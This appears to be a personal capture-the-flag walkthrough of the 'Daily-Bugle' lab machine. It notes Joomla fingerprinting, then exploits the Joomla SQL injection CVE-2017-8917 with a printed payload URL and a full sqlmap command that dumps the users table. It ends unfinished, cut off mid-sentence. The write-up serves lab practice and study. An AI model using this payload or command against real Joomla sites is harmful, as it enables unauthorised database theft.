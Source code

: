 # Daily-Bugle Walkthrough
Name: Daily-Bugle
Date:  23/09/2022
Difficulty:  Hard
Goals:  
- OSCP 2/5 Medium Machines with or without walkthough if needed 
- Practice SQLi revision from the morning
Learnt:
- I need to and have scheduled in a python scripting exploits day 

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)


[Joomla](https://www.joomla.org/) php 5.6.4
CentOS

![](www-webroot.png)

```
eaa83fe8b963ab08ce9ab7d4a798de05 
f7lrn1l0vo1vv9cmmqqc42d6l4
```

![](misfornatecookie.png)

## Exploit

Blind-Based Boolean SQLi 
![780](cve-2017-8917.png)


From looking [brainwrf](https://github.com/brianwrf/Joomla3.7-SQLi-CVE-2017-8917/blob/master/CVE-2017-8917.py)
```
/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(1,concat(1,user()),1)
```
![](meanwhile.png)

Scripting Python day is somewhat long over due. I have done lots of l33tcode questions,  but for some reason the request library and solving problems by requesting stuff has yet, but soon stick..

```bash
sqlmap -u "http://10.10.94.98/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump
```

![](johan.png)

`#__users`

## Foothold


## PrivEsc

This part I will do without walkthrough, because 
